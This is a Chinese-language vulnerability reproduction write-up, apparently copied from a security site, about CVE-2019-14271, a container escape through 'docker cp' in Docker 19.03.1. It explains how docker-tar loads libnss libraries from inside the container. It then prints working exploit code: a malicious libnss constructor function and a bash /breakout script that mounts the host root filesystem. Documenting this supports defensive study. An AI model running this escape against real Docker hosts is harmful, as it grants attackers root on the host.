



# （CVE-2019-14271）Docker copy 漏洞

> 原文：[http://book.iwonder.run/0day/Docker/2.html](http://book.iwonder.run/0day/Docker/2.html)

## 一、漏洞简介

## 二、漏洞影响

Docker 19.03.1

## 三、复现过程

### Docker cp

Copy 命令允许从容器、向容器中、或容器之间复制文件。语法与标准的 unix cp 命令非常相似。要从容器中复制/var/logs，语法是 docker cp container_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker 使用了一个名为 docker-tar 的帮助进程。



图 1\. 从容器中复制文件

docker-tar 是通过 chroot 到容器，将请求的文件或目录存档，然后将生成的 tar 文件传递给 Docker daemon，然后由 daemon 提取到主机的目标目录中。

注释：CHROOT 就是 Change Root，也就是改变程序执行时所参考的根目录位置。CHROOT 可以增进系统的安全性，限制使用者能做的事。



图 2\. docker-tar chroot 到容器中

Chroot 主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到 host root。因此，攻击者控制的容器就可以尝试和诱使 docker cp 在主机而非容器上读写文件。去年有许多 Docker 和 Podman 相关的系统链接 CVE 漏洞。通过 chroot 到容器的 root，docker-tar 可以确保所有系统链接都可以高效地解析。

但，chroot 到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker 是用 Golang 语言编写。有漏洞的 Docker 版本是用 Go v1.11 编译的。在该版本中，一些含有嵌入 C 代码（cgo）的包会在运行时动态加载共享的库。这些包包括 net 和 os/user，都是 docker-tar 使用的，而且在运行时会加载多个 libnss_*.so 库。一般来说，库是从 host 文件系统加载的，但因为 docker-tarchroot 到了容器，因此会从容器文件系统中加载库。也就是说 docker-tat 会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了 chroot 到容器文件系统外，docker-tar 并没有被容器化。它是在 host 命名空间运行的，权限为 root 全新且不受限于 cgroups 或 seccomp。因此，通过注入代码到 docker-tar，恶意容器就可以获取 host 主机的完全 root 访问权限。

可能的攻击场景有 Docker 用户从另一个 Docker 处复制文件：

容器运行含有恶意 libnss_*.so 库的镜像

容器中含有被攻击者替换的 libnss_*.so 库

在这两种情况下，攻击者都可以获取主机上的 root 代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意 libnss 库。研究人员随意选择了 libnss_files.so 文件，下载了库函数的源码，并在代码中加入了一个函数——run_at_link()。研究人员还为该函数定义了 constructor 属性。constructor 属性表明 run_at_link 函数在进程加载时会作为库的初始化函数执行。也就是说，当 Docker-tar 进程动态加载恶意库时，run_at_link 函数就会执行。下面是 run_at_link 的代码：

```
#include ...

#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

bool is_priviliged();

__attribute__ ((constructor)) void run_at_link(void)
{
     char * argv_break[2];
     if (!is_priviliged())
           return;

     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
     fprintf(log_fp, "switched back to the original libnss_file.so");

     if (!fork())
     {

           // Child runs breakout
           argv_break[0] = strdup("/breakout");
           argv_break[1] = NULL;
           execve("/breakout", argv_break, NULL);
     }
     else
           wait(NULL); // Wait for child

     return;
}
bool is_priviliged()
{
     FILE * proc_file = fopen("/proc/self/exe", "r");
     if (proc_file != NULL)
     {
           fclose(proc_file);
           return false; // can open so /proc exists, not privileged
     }
     return true; // we're running in the context of docker-tar
} 
```

查/proc 目录完成的。如果 run_at_link 运行在 docker-tar 环境下，那么目录就是空的，因为 procfs 挂载在/proc 上只存在于容器的 mount 命名空间。

然后，run_at_link 会用恶意 libnss 库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发 run_at_link 执行。

为简化该漏洞利用，run_at_link 会尝试在容器的/breakout 路径下运行可执行文件。这样漏洞利用的其他部分就可以用 bash 写入，而非 C 语言。让逻辑的其他部分在 run_at_link 外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变 breakout 二进制文件就可以了。



利用 CVE-2019-14271 打破 Docker

在该漏洞视频中，Docker 用户会运行含有恶意 libnss_files.so 的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout 二进制文件是一个简单的 bash 脚步，会挂载 host 文件系统到/host_fs 的容器中，并将消息写入 host 的/evil 目录。 /breakout 脚本代码如下：

```
umount /host_fs && rm -rf /host_fs
mkdir /host_fs

mount -t proc none /proc     # mount the host's procfs over /proc
cd /proc/1/root              # chdir to host's root
mount --bind . /host_fs      # mount host root at /host_fs
echo "Hello from within the container!" > /host_fs/evil 
```

## 四、参考链接

> [https://xz.aliyun.com/t/6806](https://xz.aliyun.com/t/6806)

